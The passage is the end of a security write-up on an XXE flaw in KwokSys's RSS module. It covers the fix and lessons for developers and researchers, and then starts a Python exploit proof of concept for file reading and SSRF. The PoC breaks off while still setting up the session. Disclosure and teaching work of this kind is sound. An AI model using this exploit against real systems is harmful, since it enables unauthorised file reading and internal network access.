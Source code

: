 The developers manually overrided 'IS_SUPPORTING_EXTERNAL_ENTITIES' to false to disable all support for external entities effectively eliminating the XXE vulnerability.

<hr>

### Key Takeaways

From the developer perspective - While much less common nowadays, some XML parsing libraries still have external entity support enabled by default instead of disabled by default. In this case, the default implementation of the XMLInputFactory provided support for external entities and the property was not overrided to false when brought into the application to be used. Whenever XML parsing is required - the usage of external entities should be highly scrutinized. If there isn't a strict business requirement for the functionality, it is safer to fully disable support for external entities. If external entities are needed due to a business requirement - significant validation should be implemented to ensure that users cannot declare new entities themselves, control the entire XML document processed by the server, or use mechanisms like XInclude. You can read more about XXE over at [Portswigger's XXE Reference](https://portswigger.net/web-security/xxe)

From the security research perspective - when hunting for vulnerabilities, your eyes should be drawn to custom code. However, it is important not to neglect standard libraries or popular 3rd party libraries. Ultimately, some libraries can be made insecure depending on how they are brought into an application to be used.

Thank you for reading!

<hr>

### Exploit PoC
```python
#/usr/bin/env python
#
# Exploit Title       : XXE via Crafted RSS Feed
# Author              : navsec
# Vulnerable Software : https://www.kwoksys.com
#
# Usage : KwokSys < v2.9.5.SP31 contains an XXE vulnerability that can be triggered by an
#         authenticated user with privileged access to the RSS module to arbitrarily read files or
#	  conduct SSRF attacks.
          
# DISCLAIMER: This PoC is provided for educational purposes only.

from http.server import SimpleHTTPRequestHandler
import requests, argparse
import urllib.parse
import sys, socketserver, threading, time
import re, html

class kwoksys:
    def __init__(self, url, username, password, LHOST, LPORT) -> None:
        self.url = url
        self.username = username
        self.password = password
        self.LHOST = LHOST
        self.LPORT = LPORT
        self.session = requests.Session()
    def requestHelper(self, path, method, data=""):
        headers = {
            'Host': '172.16.77.21:8080',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'charset': 'utf-8',
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36',
            'Content-type': 'application/x-www-form-urlencoded',
            'Accept': '*/*',
```